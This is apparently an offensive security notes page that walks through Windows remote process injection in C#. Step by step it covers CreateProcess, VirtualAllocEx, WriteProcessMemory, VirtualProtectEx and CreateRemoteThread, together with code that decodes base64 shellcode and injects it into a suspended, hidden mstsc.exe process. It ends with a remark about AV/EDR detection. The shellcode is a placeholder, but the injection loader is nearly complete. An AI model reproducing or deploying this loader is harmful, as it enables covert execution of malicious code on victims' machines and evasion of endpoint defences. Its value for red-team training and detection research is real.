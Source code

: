 # Basic Remote Process Injection API

### Basic Remote Process Injection API

#### Remote Process Injection 

1. **CreateProcess:** spawn a new process
2. **VirtualAllocEx**: allocate memory in the newly created Process. Assigns memory permissions
3. **WriteProcessMemory**: copy the shellcode into the remote process
4. **VirtualProtectEx**: Change memory permissions associated with a range of memory allocated with VirtualAllocEx in a remote process
5. **CreateRemoteThread**: creates a thread which executes the shellcode in the remote process.

## Detect OS Architecture

### Windows locations

![](../../../.gitbook/assets/image%20%28133%29.png)

### IntPtr.Size 

The size of a pointer or handle in this process, measured in bytes. The value of this property is 4 in a 32-bit process, and 8 in a 64-bit process. You can define the process type by setting the `/platform` switch when you compile your code with the C\# and Visual Basic compilers.

#### Code example

We choose a process, check if the arch is x64 or x86 and use the related payload.

```csharp
 {
        string processis64 = "C:\\Windows\\System32\\mstsc.exe";
        string processis32 = "C:\\Windows\\SysWOW64\\mstsc.exe";
        string b4shellcode = "";
        string MyVictimProcess = "";

        if (IntPtr.Size == 4)
        {
            b64shellcode = "<base64 encoded shellcode>";
            MyVictimProcess = processis32;
        }
        else
        {
            b64shellcode = "<base64 encoded shellcode>";
            MyVictimProcess = processis64;
        }

        byte[] DecodedShell = Convert.FromBase64String(b64shellcode);
```

## CreateProcess

![](../../../.gitbook/assets/image%20%28228%29.png)

#### 3 elements require defined structures:

### **STARTUPINFO**

```csharp
public struct STARTUPINFO
{
     public Int32 cb;
     public string lpReserved;
     public string lpDesktop;
     public string lpTitle;
     public Int32 dwX;
     public Int32 dwY;
     public Int32 dwXSize;
     public Int32 dwYSize;
     public Int32 dwXCountChars;
     public Int32 dwYCountChars;
     public Int32 dwFillAttribute;
     public Int32 dwFlags;
     public Int16 wShowWindow;
     public Int16 cbReserved2;
     public IntPtr lpReserved2;
     public IntPtr hStdInput;
     public IntPtr hStdOutput;
     public IntPtr hStdError;
}

```

### **PROCESS\_INFORMATION**

```csharp
public struct PROCESS_INFORMATION
{
   public IntPtr hProcess;
   public IntPtr hThread;
   public int dwProcessId;
   public int dwThreadId;
}
```

### **dwCreationFlags**

![](../../../.gitbook/assets/image%20%28310%29.png)

### CreateProcess summary

```csharp
STARTUPINFO STinfo = new STARTUPINFO();

PROCESS_INFORMATION PR_info = new PROCESS_INFORMATION();

bool polo = CreateProcess(<Process_NAME>, null, IntPtr.Zero, IntPtr.Zero, false, ProcessCreationFlags.CREATE_SUSPENDED | ProcessCreationFlags.CREATE_NO_WINDOW , IntPtr.Zero, null, ref STinfo, out PR_info );
```

|  |  |
| :--- | :--- |
| Process name | Process name |
| IntPtr.Zero  | No process Attributs needed\ |
| null  | process args |
| false | No Thread attributes handles |
| ProcessCreationFlags | CREATE\_NO_\__WINDOW |
| IntPtr.Zero  | No env block |
| null | Not modification for the current working directory |
| ref STinfo | ref to the startup struct |
| out PRinfo | variable which contains the output \(PROCESS\_INFORMATION format\) |

## **VirtualAllocEx**

![](../../../.gitbook/assets/image%20%28247%29.png)

```csharp
 private static UInt32 MEM_COMMIT = 0x1000;
 private static UInt32 PAGE_EXECUTE_READ = 0x20;
 private static UInt32 PAGE_READWRITE = 0x04;
```

### Parameters

* IntPrt Process = result \(out\) from CreateProcess
* IntPrt lpAddress = Let the function determine where to allocate the memory
* uint dwSize = shellcode size 
* AllocationType flAllocationType = Constant for allocation type \(MEM\_COMMIT\)
* MemoryProtection = Set permission \(PAGE\_READWRITE, ie RW\)

```csharp
byte[] DecodedShell = Convert.FromBase64String(b64shellcode);
IntPtr VirtAEx_result = VirtualAllocEx(PR_info.hProcess, IntPtr.Zero, DecodedShell.Length, MEM_COMMIT, PAGE_READWRITE);

```

## WriteProcessMemory

![](../../../.gitbook/assets/image%20%28245%29.png)

### Parameters

* IntPrt Process = result \(out\) from CreateProcess
* IntPtr lpBaseAddress = result of VirtualAllocEx, ie VirtualAEx\_result
* byte\[\] lpBuffer = shellcode
* nSize = shellcode Length
* Out InPtr = not important, put whatever here

```csharp
bool WrProcess_result = WriteProcessMemory(PR_info.hProcess,VirtAEx_result,DecodedShell,DecodedShell.Length, out whatever);
```

## VirtualProtectEx

![](../../../.gitbook/assets/image%20%28125%29.png)

### Parameters

* IntPrt Process = result \(out\) from CreateProcess
* IntPtr lpBaseAddress = result of VirtualAllocEx, ie VirtualAEx\_result
* UIntPtr dwSize = shellcode Length
* uint flNewProtect = set permission \(PAGE\_EXECUTE\_READ \) 
* Out uint lpfloldProtect = not important, put whatever here

```csharp
VirtProcte_result = VirtualProtectEx(PR_info.hProcess, VirtAEx_result, DecodedShell.Length, PAGE_EXECUTE_READ, out whatever2 );
```

## CreateRemoteThread

![](../../../.gitbook/assets/image%20%28252%29.png)

### Parameters

* IntPrt Process = result \(out\) from CreateProcess
* IntPtr lpThreadAttributes = IntPtr.zero \(defaut security descriptors\)
* uint dwStackSize = 0 \(no stack size spec\)
* IntPtr lpStartAddress = result of VirtualAllocEx
* IntPtr lpParameter = IntPtr.Zero, no variable specification
* uint dwCreationFlags = 0, run the thread immediately
* out IntPtr lpThreadId = IntPtr.Zero \(no need for thread id\)

```csharp
CreateRemoteThread(PR_info.hProcess, IntPtr.Zero, 0, VirtAEx_result, IntPtr.Zero, 0, IntPtr.Zero);
```

{% hint style="warning" %}
CreateRemoteThread is flagged by AV/EDR products :\)
{% endhint %}

## Resources

{% embed url="http://www.pinvoke.net/index.aspx" %}

